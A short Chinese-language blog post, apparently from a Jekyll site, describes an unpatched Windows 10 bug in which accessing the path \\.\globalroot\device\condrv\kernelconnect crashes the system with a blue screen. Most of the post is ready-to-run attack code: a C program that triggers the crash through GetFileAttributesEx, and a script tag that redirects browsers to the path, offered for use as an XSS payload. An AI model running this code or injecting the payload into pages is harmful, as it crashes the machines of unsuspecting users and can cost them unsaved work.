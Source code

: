 ```yaml
---
layout: post
title: "一条路径能导致Windows 10蓝屏"
author: "Blume"
tags: "网络安全"
intro: "核心代码: file:///globalroot/device/condrv/kernelconnect"
---
```


一个漏洞，微软官方尚未修复；如果由于不正确的错误检查而尝试不通过属性而连接到路径，则会导致异常，从而导致Windows 10中的蓝屏死机（BSOD）崩溃。得知此漏洞只对Windows 10有效

`\\.\globalroot\device\condrv\kernelconnect`

代码实现
{% highlight c %}
#include <iostream>
#include <Windows.h>
int main() {
    WCHAR fileName[] = L"\\\\.\\globalroot\\device\\condrv\\kernelconnect";
    WIN32_FILE_ATTRIBUTE_DATA data;
    GetFileAttributesEx(fileName, GetFileExInfoStandard, &data);
}
{% endhighlight %}

还可以用来做XSS
{% highlight javascript %}
<script>document.location = '\\\\.\\globalroot\\device\\condrv\\kernelconnect';</script>
{% endhighlight %}